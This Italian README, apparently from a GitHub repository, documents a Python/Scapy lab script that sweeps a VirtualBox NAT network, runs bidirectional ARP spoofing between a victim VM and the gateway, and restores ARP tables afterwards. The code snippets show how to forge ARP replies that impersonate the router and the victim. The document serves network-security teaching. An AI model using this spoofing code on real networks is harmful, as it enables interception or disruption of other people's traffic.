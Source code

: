 # 🧪 Script `arptotale.py`
Questo script Python esegue un laboratorio ARP completo in ambiente virtuale NAT. Include sweep iniziale, spoofing ARP bidirezionale e ripristino automatico delle tabelle ARP alla pressione di `Ctrl+C`.




🧠 Dati finali per lo spoofing
Nodo	     IP	         MAC	            Interfaccia
Attaccante	10.0.2.16	00:11:22:33:44:55	     eth0
Vittima	    10.0.2.15	08:00:27:55:44:07	    enp0s3
Gateway	    10.0.2.2	52:54:00:12:35:02	    enp0s3




🔧 Modifica arp_spoof_lab.py
Nel tuo script, imposta:




victim_ip = "10.0.2.15"
victim_mac = "08:00:27:55:44:07"
router_ip = "10.0.2.2"
router_mac = "52:54:00:12:35:02"
attacker_mac = "00:11:22:33:44:55"



#Assicurati che l’interfaccia usata sia eth0.



🔥 Esecuzione dell’attacco
Sulla VM attaccante:


cd ~/arp_lab/scripts/
sudo python3 arp_spoof_lab.py


🧪 Verifica sulla VM vittima

ping 8.8.8.8

#Se il ping fallisce durante lo spoofing, l’attacco è riuscito.

🛡️ Ripristino
Sulla VM attaccante:

sudo sysctl -w net.ipv4.ip_forward=0

Sulla VM vittima:

sudo ip neigh flush all


## ⚙️ Funzionalità principali

### 1. ARP Sweep

#Effettua una scansione della rete (`10.0.2.0/24`) per identificare host attivi e i relativi MAC address.

arp = ARP(pdst=network_range)
ether = Ether(dst="ff:ff:ff:ff:ff:ff")
packet = ether / arp
result = srp(packet, timeout=2, iface=interface, verbose=False)[0]
------------------

### 2. ARP Spoofing
#Invia pacchetti ARP falsificati per impersonare il router verso la vittima e viceversa.

#La vittima crede che l'attaccante sia il router

#Il router NAT crede che l'attaccante sia la vittima
--------------------
pkt1 = ARP(op=2, pdst=victim_ip, hwdst=victim_mac, psrc=router_ip, hwsrc=attacker_mac)
pkt2 = ARP(op=2, pdst=router_ip, hwdst=router_mac, psrc=victim_ip, hwsrc=attacker_mac)
send(pkt1)
send(pkt2)
---------

### 3. Ripristino ARP
#Alla pressione di Ctrl+C, lo script invia pacchetti corretti per ripristinare le tabelle ARP originali.

pkt1 = ARP(op=2, pdst=router_ip, hwdst=router_mac, psrc=victim_ip, hwsrc=victim_mac)
pkt2 = ARP(op=2, pdst=victim_ip, hwdst=victim_mac, psrc=router_ip, hwsrc=router_mac)
send(pkt1, count=3)
send(pkt2, count=3)

---
📁 Log automatico
Tutte le operazioni vengono registrate nel file:


🛡️ Sicurezza
Funziona solo su rete NAT virtuale (VirtualBox)

Nessun impatto su router reale o rete fisica

Ripristino automatico garantito


▶️ Esecuzione

Da terminale sulla VM attaccante:

cd ~/arp_lab/scripts/
sudo python3 arptotale.py

✍️ Autore
Script scritto per ambienti CLI e laboratori di simulazione ARP. Ottimizzato per Debian minimal, VirtualBox NAT Network e logging automatico.


---
#   a r p t o t a l e 
 
 


